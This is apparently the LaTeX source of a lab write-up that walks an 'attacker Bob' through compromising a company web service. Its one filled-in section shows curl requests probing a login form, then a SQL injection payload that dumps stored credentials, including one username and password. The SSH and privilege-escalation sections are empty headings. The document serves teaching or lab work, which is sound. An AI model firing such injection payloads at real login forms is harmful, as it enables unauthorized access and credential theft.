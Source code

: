 \documentclass[a4paper, 12pt, oneside]{extbook}
\begin{document}
In this case, the attacker Bob uses a mix of remote exploits to gain root access on the Employee PC.

\section{Sql Injection}
The attacker starts from the company web service by filling the login form with different combinations:

\begin{lstlisting}[style=DOS]
curl -X POST -d 'username=a&password=b' 193.20.3.1:8080
\end{lstlisting}
In this case, the website uses an url-encoded form, so the attacker can send the data as an url-encoded string. This one returns "Error value(s) missing".
\newline The attacker tries to tamper the form with another combination:
\begin{lstlisting}[style=DOS]
  curl -X POST -d 'username=&password=b' 193.20.3.1:8080
\end{lstlisting}
which returns:
\begin{lstlisting}[style=DOS]
  {"success":false,"response":"No user found","result":[]}
\end{lstlisting}
Lastly, the attacker can try to insert a payload with a MySQL Injection, that uses OR and the commenting syntax:
\begin{lstlisting}[style=DOS]
  curl -X POST -d 'username=" OR 1<2; -- &password=b' \
  193.20.3.1:8080
\end{lstlisting}
which returns a list of credentials:
\begin{center}
  \includegraphics[scale=0.5]{../Image/webserver_sql.PNG}
\end{center}
including an entry related to the user Tom:
\begin{lstlisting}[style=DOS]
  username = tcasaccio1
  password = YLN1NrMdGN
\end{lstlisting}

\section{SSH Access}

\section{Privilege escalation}
\end{document}
